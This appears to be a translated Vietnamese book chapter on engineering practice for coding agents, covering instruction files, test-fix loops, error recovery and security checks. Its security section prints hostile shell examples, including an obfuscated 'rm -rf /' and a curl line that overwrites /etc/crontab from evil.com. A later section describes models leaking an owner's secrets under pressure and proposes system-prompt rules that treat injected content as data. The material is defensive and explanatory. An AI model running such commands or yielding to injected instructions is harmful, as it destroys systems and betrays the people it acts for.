


Mô tả bên dưới là một tập hợp các quy trình kỹ thuật được đề xuất, đưa ra các phương pháp thực hành tốt nhất về công nghệ phần mềm trên Agent và phác thảo hình thức lý tưởng. Trên thực tế, Coding Agent (chẳng hạn như Claude Code, OpenClaw) hoạt động nhiều hơn theo vòng lặp phản ứng lặp lại và sẽ **cắt theo yêu cầu** bộ quy trình này - các tác vụ đơn giản sẽ bỏ qua tài liệu thiết kế và sẽ không bị chặn khi chờ người dùng phê duyệt ở mỗi bước. Chỉ khi nhiệm vụ phức tạp và có tác động lớn thì mọi công đoạn mới được hoàn thành trọn vẹn.

**Tài liệu dự án.**

Công việc của Coding Agent bắt đầu bằng sự hiểu biết có hệ thống về dự án. Khi Agent lần đầu tiên tiếp xúc với kho mã, nhiệm vụ đầu tiên không phải là thay đổi mã ngay lập tức mà là thiết lập khuôn khổ nhận thức cho toàn bộ dự án - giống như một kỹ sư mới được thuê, anh ta sẽ không trực tiếp gửi mã vào ngày đầu tiên mà trước tiên hãy làm quen với cấu trúc dự án. Agent trước tiên sẽ kiểm tra xem dự án có tài liệu - README, tài liệu thiết kế kiến trúc, hướng dẫn dành cho nhà phát triển hay không.

Nếu thiếu tài liệu chính, Agent không nên bắt đầu làm việc ở trạng thái mù mà nên chủ động đảm nhận trách nhiệm về tài liệu - bằng cách đọc cơ sở mã một cách có hệ thống, xác định các mô-đun chính, tóm tắt cốt lõi và phụ thuộc giữa các thành phần, đồng thời tạo tài liệu ban đầu bao gồm tổng quan về kiến trúc, cấu trúc thư mục và hướng dẫn chạy thử nghiệm. Tài liệu này không chỉ cung cấp kế hoạch chi tiết cho công việc tiếp theo của Agent mà còn cung cấp điểm khởi đầu cho các nhà phát triển khác. Điều này phản ánh một nguyên tắc then chốt: kiến thức rõ ràng là điều kiện tiên quyết để hợp tác hiệu quả.

Tài liệu dự án hiện có dạng đặc biệt dành cho Agent: **Tệp hướng dẫn dự án**. Các tệp như CLAUDE.md, AGENTS.md, .cursorrules, v.v. đã trở thành tiêu chuẩn thực tế trong ngành - chúng được tự động đưa vào ngữ cảnh vào đầu mỗi phiên và hoạt động như lời nhắc hệ thống cấp dự án. Không giống như README dành cho người đọc, tệp hướng dẫn mang các quy ước hành vi cho Agent: lệnh xây dựng và kiểm tra ("sử dụng `pnpm test` thay vì `npm test`"), kiểu mã hóa ("vô hiệu hóa mọi loại") và xóa các khu vực hạn chế ("không sửa đổi thư mục `migrations/`"). Đây là ứng dụng của cùng một ý tưởng ở các cấp độ khác nhau với `SOUL.md` của OpenClaw (xác định các quy tắc nhận dạng và hành vi của Agent) và `MEMORY.md` (kết thúc trải nghiệm phiên chéo): SOUL.md quy định "Agent là ai" và tệp hướng dẫn dự án quy định "cách làm việc trong dự án này". Từ góc độ kỹ thuật ngữ cảnh trong Chương 2, tệp hướng dẫn vẫn là tiền tố ổn định và tiết kiệm nhất - nội dung không thay đổi theo nhiệm vụ và thân thiện một cách tự nhiên với KV Cache; nó cũng là cách thực hiện trực tiếp nhất nguyên tắc "kiến thức phải tồn tại trong chính cơ sở mã".

Có một hệ quả tất yếu thú vị đối với nguyên tắc trình bày kiến thức: **Các nhóm thân thiện khi làm việc từ xa có xu hướng thân thiện với AI Agent**. Các nhóm từ xa buộc phải dựa vào tài liệu và giao tiếp không đồng bộ - các quyết định được ghi lại trong tài liệu, ngữ cảnh được viết trong vấn đề và mô tả PR, đồng thời kiến thức về bộ lạc được lưu giữ trong hướng dẫn dành cho nhà phát triển, thay vì dựa vào việc truyền tải bằng lời nói tại máy trạm và bảng trắng trong phòng hội nghị. Đây chính xác là dạng kiến thức mà Agent có thể sử dụng: Agent không thể đọc các thỏa thuận bằng lời nói, nhưng có thể đọc tài liệu thiết kế. Mặt khác, một nhóm chủ yếu dựa vào việc "hãy hỏi đồng nghiệp ngồi cạnh bạn" sẽ có chi phí bắt đầu cao tương đương, đối với cả nhân viên mới từ xa và Agent. Để đánh giá cấp độ "AI-ready" của một nhóm, một chỉ báo proxy đơn giản là: liệu người mới từ xa có thể làm việc độc lập chỉ dựa vào kho mã và tài liệu hay không.

**Hiểu rõ nhiệm vụ và làm rõ yêu cầu.**

Đối với các yêu cầu đơn giản có ranh giới rõ ràng và phạm vi tác động hạn chế - chẳng hạn như sửa một lỗi đã biết hoặc điều chỉnh các tham số của chức năng - Agent có thể trực tiếp bước vào giai đoạn triển khai. Tuy nhiên, hầu hết các nhiệm vụ trong phát triển phần mềm không đơn giản như vậy.

Đối với những yêu cầu phức tạp, Agent phải cẩn thận và bài bản hơn. Sự phức tạp có thể bắt nguồn từ nhiều chiều: sự mơ hồ của bản thân các yêu cầu (người dùng biết họ muốn gì nhưng không thể diễn đạt chính xác), sự đa dạng của các lộ trình triển khai (có sẵn nhiều giải pháp kỹ thuật, mỗi giải pháp đều có sự đánh đổi) hoặc phạm vi tác động rộng (cần sửa đổi nhiều mô-đun, điều này có thể phá hủy các chức năng hiện có). Agent nên làm rõ ranh giới thông qua nghiên cứu khám phá và chủ động tham gia đối thoại với người dùng khi cần thiết. Ví dụ: khi người dùng yêu cầu "tối ưu hóa hiệu suất hệ thống", Agent trước tiên cần tìm hiểu: mục tiêu cụ thể của việc tối ưu hóa là gì (giảm thời gian phản hồi, giảm mức sử dụng bộ nhớ hoặc cải thiện thông lượng), sự đánh đổi có thể chấp nhận được (liệu có cho phép tăng độ phức tạp của mã hay không) và nút thắt cổ chai hiện tại ở đâu. Bắt đầu viết mã khi các yêu cầu còn mơ hồ thường dẫn đến việc phải làm lại rất nhiều.

**Viết tài liệu thiết kế.**

Tài liệu thiết kế là cầu nối biến các yêu cầu trừu tượng thành kế hoạch triển khai cụ thể. Họ phải trả lời các câu hỏi cốt lõi: mô-đun nào nên được sửa đổi và tại sao, giải pháp nào nên được áp dụng và lợi thế tương đối của chúng, những phụ thuộc mới nào cần được đưa vào và tác động dự kiến đối với hệ thống. Bản thân việc viết một tài liệu thiết kế là một quá trình suy nghĩ sâu sắc - nó buộc Agent phải xác minh tính khả thi của giải pháp ở cấp độ khái niệm trước khi thực hiện nhiều mã hóa. Hơn nữa, tài liệu thiết kế cung cấp một điểm truy cập hiệu quả cho con người—việc xem lại một tài liệu thiết kế ngắn gọn sẽ dễ dàng hơn nhiều so với việc xem xét hàng trăm dòng mã. Agent Sau khi hoàn thành tài liệu thiết kế, tài liệu này phải được gửi cho người dùng để xem xét và chờ phê duyệt trước khi tiếp tục.

**Triển khai và thử nghiệm mã.**

Sau khi được phê duyệt thiết kế, Agent đã được triển khai theo các thông số kỹ thuật mã của dự án, sử dụng lại các công cụ và trừu tượng hiện có, đồng thời thực hiện tái cấu trúc vừa phải khi cần thiết để giữ cho cơ sở mã hoạt động tốt.

Sau khi quá trình triển khai hoàn tất, hãy tham gia ngay quy trình đảm bảo chất lượng dựa trên thử nghiệm - viết các trường hợp thử nghiệm cho các chức năng mới hoặc được sửa đổi, bao gồm các đường dẫn bình thường, điều kiện biên và các tình huống bất thường. Thực hiện bộ kiểm tra sau khi viết bài kiểm tra. Nếu thử nghiệm thất bại, Agent không chỉ báo cáo lỗi cho người dùng mà còn phải phân tích nguyên nhân, xác định sự cố và sửa đổi mã cho đến khi tất cả các thử nghiệm đều vượt qua. Chu trình "kiểm tra sửa lỗi" này có thể yêu cầu nhiều lần lặp lại và chính khả năng tự sửa lỗi này đã nâng Coding Agent từ một trình tạo mã thành một trợ lý kỹ thuật đáng tin cậy.

Ngay cả khi tất cả các bài kiểm tra đều vượt qua, công việc của Agent vẫn chưa kết thúc. Tiếp theo là giai đoạn xem xét mã: Agent kiểm tra nghiêm ngặt mã bạn tạo - mức độ dễ đọc của nó, liệu có đủ nhận xét hay không; liệu có vấn đề tiềm ẩn về hiệu suất hoặc lỗ hổng bảo mật hay không; liệu nó có tuân theo phong cách mã hóa và các phương pháp hay nhất của dự án hay không. Bạn có thể thực hiện quá trình tự xem xét này bằng cách đọc mã, chạy công cụ tìm lỗi mã nguồn hoặc gọi đến bộ phận đánh giá mã chuyên dụng Agent (Sub-Agent). Nếu quá trình đánh giá phát hiện ra vấn đề, hãy quay lại giai đoạn sửa đổi và cải thiện chúng thay vì cung cấp mã lỗi cho người dùng.

**Đồng bộ hóa và phân phối tài liệu.**

Nếu việc sửa đổi mã liên quan đến những thay đổi ở cấp độ kiến trúc - chẳng hạn như giới thiệu các mô-đun mới, thay đổi sự phụ thuộc giữa các mô-đun, sửa đổi ngữ nghĩa trừu tượng cốt lõi - Agent cần cập nhật tài liệu kiến trúc cho phù hợp. Tài liệu lỗi thời còn tệ hơn là không có tài liệu vì nó đánh lừa các nhà phát triển trong tương lai. Bằng cách tự động cập nhật tài liệu sau mỗi lần sửa đổi lớn, Agent giúp duy trì tính toàn vẹn và cập nhật của cơ sở kiến thức của dự án.

Quá trình này thể hiện các nguyên tắc cốt lõi của công nghệ phần mềm: lập kế hoạch đi trước hành động, xác minh xuyên suốt, tài liệu và mã cùng phát triển.

### Thực hành Harness Engineering (kỹ thuật Harness) ở Coding Agent

Chương 1 giới thiệu khái niệm về Harness Engineering (kỹ thuật Harness) và công thức **Agent = Model + Harness**. Harness ở đây bao gồm ngữ cảnh và các công cụ trong công thức cốt lõi, cũng như các cơ chế ràng buộc, xác minh và sửa chữa - cả năm cơ chế này cùng nhau tạo thành Harness được xác định trong Chương 1. Coding Agent có lẽ là lĩnh vực mà Harness Engineering đã đạt được nhiều thành tựu nhất - viết mã là danh mục có thể kiểm chứng rõ ràng nhất trong tất cả các nhiệm vụ Agent và các ràng buộc, xác minh và sửa lỗi đều có cơ sở hạ tầng được tạo sẵn để dựa vào. Phần này tập trung vào cách thực hành cụ thể trong kịch bản Coding Agent.

Việc nó có thể hoạt động ổn định hay không thường không phụ thuộc vào mô hình được sử dụng mạnh mẽ như thế nào mà phụ thuộc vào cơ sở hạ tầng được xây dựng xung quanh Agent vững chắc đến mức nào. Chương 1 chia Harness thành hai cấp độ - **Ngữ cảnh và Công cụ**(cho phép Agent thực hiện mọi việc) và **Ràng buộc, Xác minh và Chỉnh sửa**(cho phép Agent không làm sai). Trong kịch bản Coding Agent, chúng được triển khai dưới dạng các thành phần kỹ thuật cụ thể:

- **Cơ sở chấp nhận**: Những gì được coi là đã hoàn thành - bộ thử nghiệm, quy trình CI (quy trình tích hợp liên tục, một loạt các bước kiểm tra chạy tự động sau khi gửi mã), tiêu chuẩn đánh giá mã
- **Ranh giới thực thi**: Agent Những gì có thể và không thể chạm vào - ranh giới mô-đun, quy tắc phụ thuộc, kiểm soát quyền
- **Tín hiệu phản hồi**: Tự động phán đoán đúng sai - Linter (một công cụ kiểm tra đặc tả mã có thể tự động phát hiện lỗi định dạng và các vấn đề tiềm ẩn) đầu ra, kết quả kiểm tra, lỗi kiểm tra loại
- **Phương pháp khôi phục**: Cách khôi phục khi có sự cố - Kiểm soát phiên bản Git, cách ly hộp cát, khôi phục ảnh chụp nhanh

**Coding Agent Tại sao nó lại hoàn hảo cho các Harness Engineering.**

Nhiệm vụ có thể được chia thành bốn trạng thái bằng cách sử dụng hai khía cạnh là tính rõ ràng của nhiệm vụ và tự động hóa xác minh. Mục tiêu rõ ràng và kết quả có thể được xác minh tự động, đây là lĩnh vực phù hợp nhất cho Agent; mục tiêu rất rõ ràng, nhưng việc chấp nhận phải dựa vào sự giám sát của con người và mức trần thông lượng là tốc độ đánh giá của con người; có phản hồi tự động nhưng mục tiêu không rõ ràng, hệ thống sẽ chạy sai hướng một cách hiệu quả; nếu thiếu cả hai, Agent về cơ bản là vô dụng. Bảng 5-1 cho thấy bốn trạng thái này. Mục tiêu của Harness là đẩy càng nhiều nhiệm vụ càng tốt vào góc phần tư "mục tiêu rõ ràng + tự động xác minh".

Bảng 5-1 Bốn góc phần tư của nhiệm vụ rõ ràng và tự động hóa xác minh

| | Kết quả có thể được xác minh tự động | Kết quả cần được xác minh thủ công |
|---|---|---|
|**Mục tiêu rõ ràng**| Lĩnh vực tốt nhất: sửa lỗi với các trường hợp thử nghiệm | Thông lượng bị giới hạn: việc tái cấu trúc mã yêu cầu xem xét thủ công |
|**Mục tiêu bị mờ**| Độ lệch hiệu quả: sử dụng kẻ nói dối để tối ưu hóa "chất lượng mã" | Khó bắt đầu: "Làm cho giao diện người dùng trông đẹp hơn" |

Viết mã đương nhiên là trọng tâm của góc phần tư này - các bộ thử nghiệm cung cấp tiêu chí chấp nhận rõ ràng, bộ kiểm tra loại và trình kiểm tra loại cung cấp xác minh tự động nhanh chóng và Git cung cấp khả năng khôi phục và kiểm soát phiên bản hoàn hảo. Điều này giải thích tại sao Coding Agent là loại hoàn thiện nhất trong số tất cả các loại Agent hiện tại: không phải vì mô hình tạo mã đặc biệt mạnh mà vì cơ sở hạ tầng được tích lũy bởi công nghệ phần mềm trong nhiều thập kỷ đương nhiên tạo thành một tập hợp Harness mạnh mẽ.

**Thực tiễn trong ngành.**

Thực hành khai thác trong ba trường hợp xác nhận các nguyên tắc trên:

- **Trường hợp di chuyển mã quy mô lớn**(từ một thực tiễn di chuyển mã quy mô lớn được chia sẻ công khai bởi một công ty công nghệ lớn): Điều quan trọng không phải là có một mô hình mạnh mẽ mà là phải thực hiện đúng ba điều trong Harness - kiến thức phải tồn tại trong chính cơ sở mã (Agent Những gì không thể nhìn thấy nghĩa là không tồn tại), các ràng buộc được mã hóa vào Linter và CI thay vì được viết trong tài liệu, đồng thời xác minh và sửa lỗi tự động hóa liên kết đầy đủ.
- **LangChain**: Cải thiện đáng kể hiệu suất tác vụ điểm chuẩn chỉ bằng cách tối ưu hóa Harness (system prompt, phần mềm trung gian công cụ, vòng lặp tự xác minh). Đặc biệt đáng nói đến là phương pháp “Sử dụng Agent để phân tích trajectory lỗi nhằm cải thiện Harness”, cho phép Harness Engineering (kỹ thuật Harness) chuyển từ hướng theo trải nghiệm thủ công sang hướng theo dữ liệu.
- **Anthropic**: Chia các nhiệm vụ dài thành hai vai trò - khởi tạo Agent chịu trách nhiệm phân tách các nhiệm vụ lớn thành danh sách nhiệm vụ và thực thi Agent chịu trách nhiệm tiến dần và để lại kết quả trung gian (như tệp mã đã hoàn thành, danh sách nhiệm vụ được cập nhật, v.v.) cho vòng tiếp theo. Sự phân công lao động này giải quyết vấn đề Agent lâu năm "cố gắng làm quá nhiều việc cùng một lúc" hoặc "tuyên bố hoàn thành quá sớm".

**Từ Coding Agent đến các nguyên tắc thiết kế Harness phổ quát.**

Thực tiễn Harness của Coding Agent cung cấp các nguyên tắc thiết kế có thể chuyển nhượng cho tất cả các hệ thống Agent:

1. **Các ràng buộc được ưu tiên hơn hướng dẫn**: Không sử dụng đề xuất tài liệu nếu bạn có thể sử dụng mã để thực thi các quy tắc. Giá trị của các quy tắc Linter, các ràng buộc về loại và kiểm tra CI vượt xa hướng dẫn "Vui lòng làm theo..." trong lời nhắc của hệ thống - hướng dẫn trước là "không thể làm được" và hướng dẫn sau chỉ là "nên không nên làm điều đó".
2. **Xác minh tự động**: Xem xét thủ công là một nút thắt cổ chai không thể mở rộng được. Bộ thử nghiệm, kiểm tra chất lượng mã, giám sát hành vi - lợi tức đầu tư vào cơ sở hạ tầng này lớn hơn nhiều so với việc bổ sung nhân lực.
3. **Phản hồi càng nhanh thì càng tốt và càng có cấu trúc càng tốt**: Thông tin lỗi càng chi tiết và càng gần thời điểm xảy ra lỗi thì hiệu quả khắc phục của Agent càng cao. Công nghệ thanh trạng thái Agent ở Chương 2 (thông báo lỗi chi tiết, bộ đếm lệnh gọi công cụ) là hiện thân của nguyên tắc này.
4. **Việc khôi phục phải đáng tin cậy**: Agent Chỉ khi hoạt động trong mạng lưới an toàn, bạn mới có thể mạnh dạn thử và phạm sai lầm. Các nhánh Git, môi trường sandbox và cơ chế chụp nhanh đảm bảo rằng mọi lỗi đều có thể khắc phục được.

**Kỹ thuật đáng tin cậy.**

Các nguyên tắc trên được đẩy lên mức tối đa trong Agent cấp sản xuất, chẳng hạn như Claude Code. Chương 1 phác thảo các chức năng cốt lõi của Harness từ các khía cạnh của ngữ cảnh và công cụ, các ràng buộc, xác minh, hiệu chỉnh, v.v.; Phần này tập trung vào kịch bản Coding Agent để chứng minh mức độ phức tạp của việc triển khai các chức năng này trong các dự án thực tế. Agent cấp sản xuất chủ yếu gặp phải ba loại vấn đề ranh giới: **gián đoạn đầu ra**(lỗi xảy ra giữa chừng trong quá trình tạo mô hình), **kết nối bị kẹt**(không phản hồi trong một thời gian dài), **vòng lặp trạng thái nội bộ**(Agent rơi vào các hoạt động lặp lại). Các chiến lược đối phó được giải thích từng cái một dưới đây.

**Khôi phục lỗi: Triển khai kỹ thuật các chiến lược khôi phục đa cấp**. Nguyên tắc hiệu chỉnh được đề xuất trong Chương 1—không để lộ các trạng thái trung gian cho đến khi việc khôi phục được xác nhận là không thể thực hiện được—yêu cầu một tập hợp gradient khôi phục cụ thể trong Coding Agent. Lấy đầu ra của mô hình đạt đến giới hạn độ dài (bị cắt bớt giữa chừng trong quá trình tạo) làm ví dụ: cấp độ đầu tiên, âm thầm tăng giới hạn dung lượng và thử lại; cấp độ thứ hai, thêm hướng dẫn meta vào cuối thông báo để tiếp tục tạo mô hình từ điểm dừng; cấp độ thứ ba, tất cả các phương pháp khôi phục tự động sẽ được sử dụng hết trước khi lỗi được phát hiện cho người dùng. Tương tự, khi có sự bất thường trong cấu trúc hội thoại (chẳng hạn như lệnh gọi công cụ thiếu thông báo kết quả ghép nối), hệ thống sẽ tự động sửa chữa mối quan hệ ghép nối tin nhắn thay vì báo lỗi. Điều đáng lưu ý là một số Agent cấp sản xuất chạy cả chế độ sản xuất và chế độ thu thập dữ liệu huấn luyện, có các yêu cầu khác nhau về chất lượng dữ liệu: trong chế độ sản xuất, các thông báo bị thiếu có thể được vá bằng trình giữ chỗ, nhưng ở chế độ thu thập dữ liệu huấn luyện nghiêm ngặt, việc sửa chữa bị từ chối - vì việc đưa trình giữ chỗ tổng hợp vào dữ liệu huấn luyện sẽ làm ô nhiễm mô hình. Tiêu chuẩn kép này về "mô hình sản phẩm khoan dung và mô hình đào tạo nghiêm ngặt" phản ánh sự kết hợp sâu sắc giữa Harness và đào tạo mô hình.

**Khả năng phục hồi kết nối trực tuyến**. Chế độ lỗi nguy hiểm nhất khi phát trực tuyến API không phải là kết nối bị ngắt (điều này sẽ báo lỗi ngay lập tức), mà là nó bị kẹt âm thầm - kết nối được thiết lập thành công nhưng luồng dữ liệu dừng lại, giống như một đường ống nước mở nhưng không có nước chảy ra. Cơ chế hết thời gian chờ của SDK chỉ bao gồm kết nối ban đầu chứ không bao gồm quá trình phát trực tuyến. Việc sản xuất Agent yêu cầu bộ đếm thời gian theo dõi nhàn rỗi độc lập (bộ đếm thời gian theo dõi, cơ chế phát hiện xem hệ thống có bị kẹt hay không - nếu không có đầu ra mới sau thời gian đã đặt, nó được xác định là bị kẹt và quá trình phục hồi được kích hoạt). Nó liên tục theo dõi thời gian nhận được dữ liệu cuối cùng. Sau khi hết thời gian chờ, nó sẽ chủ động tắt luồng bị tạm dừng và kích hoạt thử lại hoặc khôi phục. Đây là một nguyên tắc có thể khái quát: **Mọi kết nối lâu dài đều cần có tín hiệu hoạt động, thay vì chỉ dựa vào thời gian chờ kết nối**.

**Bảo vệ vòng lặp vô hạn của Hook**. Khi trajectory của Agent đã ở trạng thái không hợp lệ (chẳng hạn như lỗi tràn ngữ cảnh), móc dừng (tức là logic dọn dẹp được thực thi tự động khi Agent kết thúc) sẽ không còn được kích hoạt nữa - nếu không, móc đó có thể bị lỗi và kích hoạt một móc câu mới, tạo thành một vòng lặp vô hạn giống như quân domino. Ví dụ: Agent dừng do tràn ngữ cảnh → kích hoạt hook "Tự động xác nhận mã ở cuối" → hook gọi LLM để tạo thông báo cam kết → lại tràn ngữ cảnh → kích hoạt lại hook → vòng lặp vô hạn. Các hệ thống cấp sản xuất sử dụng bộ đếm độ sâu đệ quy để phát hiện và phá vỡ các vòng lặp đó.

**An toàn và hiệu quả.**

Điều này tương ứng với mô hình mối đe dọa đã thảo luận trong bài viết trước (Ba yếu tố chết người) - ở đó người ta phân tích "rủi ro nào gây chết người nhiều nhất", ở đây thảo luận "cách phòng thủ ở cấp độ thực hiện".

**Bảo mật: Phân tích ngữ nghĩa thay vì đưa vào danh sách đen từ khóa**. Chương 1 đã đề cập rằng lớp xác thực nên áp dụng cơ chế bảo mật "dựa trên sự hiểu biết hơn là khớp". Xác minh bảo mật lệnh Shell là kịch bản ứng dụng thách thức nhất của nguyên tắc này. Danh sách đen từ khóa đơn giản không thể đối phó với sự bùng nổ tổ hợp của các shell - các lệnh có thể bỏ qua mọi quy tắc tĩnh thông qua các đường ống, các shell con, mở rộng biến, v.v. (ví dụ: `rm` bị cấm và kẻ tấn công có thể bỏ qua nó bằng `$(echo rm) -rf /`). Harness cấp độ sản xuất sử dụng phân tích cú pháp ngữ nghĩa: hiểu các loại tham số và quy tắc tiêu thụ của từng lệnh (bit cờ nào sẽ tiêu thụ tham số tiếp theo) và xác định các kiểu tấn công như "bit cờ dường như vô hại sẽ thực sự tiêu thụ tham số tiếp theo và ẩn tải trọng nguy hiểm." Ví dụ: `find / -name '*.log' -exec rm {} \;` nhúng thao tác xóa `rm` thông qua tham số lệnh `find` hợp pháp; một ví dụ khác là `curl -o /etc/crontab http://evil.com/payload`, có vẻ như đang tải xuống một tệp nhưng thực tế lại ghi đè lên tác vụ đã lên lịch của hệ thống. Phân tích cú pháp ngữ nghĩa có thể xác định các hoạt động nguy hiểm lồng nhau này mà danh sách đen lệnh đơn giản không thể nắm bắt được. Cơ chế bảo mật dựa trên sự hiểu biết hơn là so khớp này là cách triển khai chức năng "ràng buộc" ở cấp độ cao.

**Thực thi suy đoán: khiến việc kiểm tra bảo mật trở nên "vô hình"**. Đây chính xác là tác dụng của cơ chế kiểm soát Sidecar trong Chương 4 ở lớp trải nghiệm người dùng - Chương 4 giải thích tại sao các hoạt động chính phải được chuyển giao cho Sidecar xem xét độc lập với ngữ cảnh chính. Phần này liên quan đến cách ngăn chặn lớp đánh giá này bị người dùng coi là đang chờ đợi. Phương pháp này là tách song song hai thứ "hiển thị" và "giải phóng": khi Agent đang chuẩn bị thực hiện lệnh gọi công cụ, trước tiên hệ thống sẽ hiển thị lời nhắc tiến trình trên giao diện (chẳng hạn như "Đọc tệp `src/main.py` ..."), đồng thời chạy kiểm tra bảo mật ở chế độ nền. Ở đây chúng ta cần làm rõ một phép loại suy thường được sử dụng: nó khác với việc thực thi suy đoán của CPU - nếu CPU đoán sai, nó sẽ loại bỏ kết quả tính toán và khôi phục trạng thái. Điều đầu tiên ở đây chỉ là lời nhắc giao diện người dùng mà không có tác dụng phụ. Nó không thay đổi bất kỳ trạng thái thực nào. Nếu kiểm tra thất bại, không cần phải quay lại. Nó chỉ thay thế lời nhắc bằng "chờ xác nhận". Trong hầu hết các trường hợp, quá trình kiểm tra bảo mật được hoàn thành trước khi người dùng nhận thấy và người dùng hoàn toàn không cảm thấy có độ trễ bổ sung; chỉ khi không thể đưa ra quyết định nhanh chóng thì nó mới thực sự tạm dừng và chờ xác nhận. Đây là cấp độ cao nhất của thiết kế Harness: bảo mật không ảnh hưởng đến trải nghiệm người dùng.

**Điều phối công cụ: Kiểm soát ranh giới lỗi**. Coding Agent trưởng thành hỗ trợ các cuộc gọi công cụ song song. Vấn đề duy nhất từ góc độ Harness là **lỗi lan truyền như thế nào**: khi một công cụ bị lỗi, cuộc gọi nào sẽ bị hủy và cuộc gọi nào sẽ tiếp tục? Nguyên tắc là lỗi chỉ lan truyền trong cùng một đợt lệnh gọi song song và không chuyển sang các hoạt động chính - ví dụ: khi ba tệp được đọc cùng lúc và không thể tìm thấy một trong số chúng, thì chỉ nên báo cáo một lỗi này thay vì hủy hai tệp còn lại, chứ đừng nói đến việc hủy bỏ toàn bộ tác vụ. Kiểm soát ranh giới lỗi chi tiết này tránh được chế độ mong manh của "lỗi lệnh khiến toàn bộ tác vụ bị hủy bỏ". Xem phần tiếp theo "Kỹ thuật triển khai" để biết các cơ chế cụ thể của lệnh gọi song song, phân tích cú pháp trực tuyến và hủy bỏ xếp tầng.

Đặc điểm chung của các chế độ này là: **Chúng không giải quyết được vấn đề "không đủ khả năng của mô hình", mà là vấn đề "độ bền của hệ thống trong các điều kiện biên"**. Mô hình có thể ngày càng mạnh hơn, nhưng mạng sẽ bị ngắt kết nối, quy trình sẽ bị treo và người dùng sẽ thực hiện các thao tác không mong muốn - đây là giá trị của Harness.

**Agent Người mà bạn trung thành: Lòng trung thành dưới nhiều ủy thác.**

(Đoạn này là phần thảo luận mở rộng về vấn đề bảo mật chung của Agent - lòng trung thành chính - trong kịch bản Coding Agent. Nó liên quan lỏng lẻo đến dòng chính của kỹ thuật độ tin cậy trong phần này. Người đọc có thể đọc nếu cần.) Cơ chế bảo mật trước đó ngăn chặn "các lệnh bị phá vỡ", đồng thời còn có một vấn đề bảo mật tinh vi hơn: **Agent thuộc phe nào?**. Những người mẫu ngày nay được đào tạo với một nguyên tắc mặc định đơn giản - "Tôi sẽ cố gắng giúp đỡ bất cứ ai đang nói chuyện với tôi". Nhưng Agent thực sự thường ở trong tình huống **nhiều ủy quyền**: nó hành động thay mặt cho chủ sở hữu (người đứng đầu), đồng thời phải giao dịch với các bên thứ ba có lợi ích trái ngược nhau. Có Agent người mặc cả cho bạn, Agent người sàng lọc sơ yếu lý lịch cho công ty và Agent người thay mặt bạn đàm phán với dịch vụ khách hàng. Những người ngồi đối diện bạn không phải là "người dùng cần trợ giúp" mà là **đối thủ đàm phán**. Lúc này, “ai nói giúp” là một thiết lập mặc định nguy hiểm - chỉ cần đối phương lên tiếng, anh ta có thể kích động Agent nổi loạn.

Nếu bạn đặt một mô hình tiên tiến vào tình huống này và thử nghiệm nó, bạn sẽ thấy **phổ trung thành** rõ ràng và cả hai đầu sẽ đảo ngược [^ch5-1]. Một bên là **quá trung thực**: cung cấp trực tiếp thông tin cá nhân của chủ sở hữu (chẳng hạn như "Giá cơ bản của chúng tôi là 12.000") cho đối thủ, và thậm chí thừa nhận "thông tin này tồn tại" khi bị ép; nhượng bộ sau nhiều lần bị áp lực trong vài hiệp. Bên kia là **Quá nhiều nghi ngờ**: Để không bị lộ bí mật, ngay cả yêu cầu chính đáng của chủ nhân cũng bị từ chối, họ không dám làm gì nhưng cũng không thể hoàn thành nhiệm vụ. Hơn một chục mô hình tiên tiến rõ ràng đang bị phân cực trong vấn đề này - một số có thể giảm tỷ lệ "phản bội chủ sở hữu" xuống dưới 20%, trong khi một số khác lại cao đến mức nực cười. Khó khăn thực sự là hai loại hư hỏng này giống như một trò chơi bập bênh: việc chặn rò rỉ thường dẫn đến sự từ chối quá mức và ngược lại. Thật khó để có được cả hai.

Quan điểm này đặc biệt phù hợp với Dây nịt Coding Agent và Agent. Các "đối thủ" mà Coding Agent phải đối mặt hàng ngày ở khắp mọi nơi: một đoạn nội dung không đáng tin cậy được đọc trong kho, kết quả được trả về bởi một công cụ, một hướng dẫn được gửi bởi máy chủ MCP của bên thứ ba - **Tội lỗi nhắc nhở về cơ bản là một "đối thủ" đang cố gắng làm cho Agent của bạn đổi phe**(Chương 2 và 4). Do đó, lớp Harness phải xác định rõ ràng "đối tượng trung thành": hướng dẫn của chủ sở hữu (người triển khai và người dùng được ủy quyền) có mức độ ưu tiên cao nhất và tất cả nội dung từ các bên tương tác bên ngoài sẽ được giảm xuống dữ liệu "có thể được tham chiếu nhưng không có hiệu lực hướng dẫn" theo mặc định. Khi nói đến lời nhắc của hệ thống, một bộ **quy tắc trung thành** hiệu quả là: bảo vệ thông tin riêng tư của chủ sở hữu và thậm chí cả "sự tồn tại" của thông tin đó; khi từ chối, đừng đọc to từng danh sách từ chối (bản thân nó đang bị rò rỉ); điểm mấu chốt của tư nhân không bằng lập trường bên ngoài (giá cơ bản 12.000 không có nghĩa là có thể nói chứ đừng nói đến việc chấp nhận) 12000); trước tiên nắm trong tay quyền nhượng bộ có điều kiện và không chủ động thể hiện nó; chỉ thực hiện những hướng dẫn rõ ràng, cụ thể từ chủ sở hữu; Chịu được áp lực lặp đi lặp lại và không coi việc “bị yêu cầu nhiều lần” là lý do để nhượng bộ. Việc viết các quy tắc này vào lời nhắc của hệ thống có thể làm giảm đáng kể khả năng bị "kích động nổi loạn" - về bản chất, đây là việc sử dụng Harness để thêm một vị trí vào mô hình mà mặc định nó không có: **Trung thành tuyệt đối với chủ và thận trọng với những người tương tác bên ngoài**.

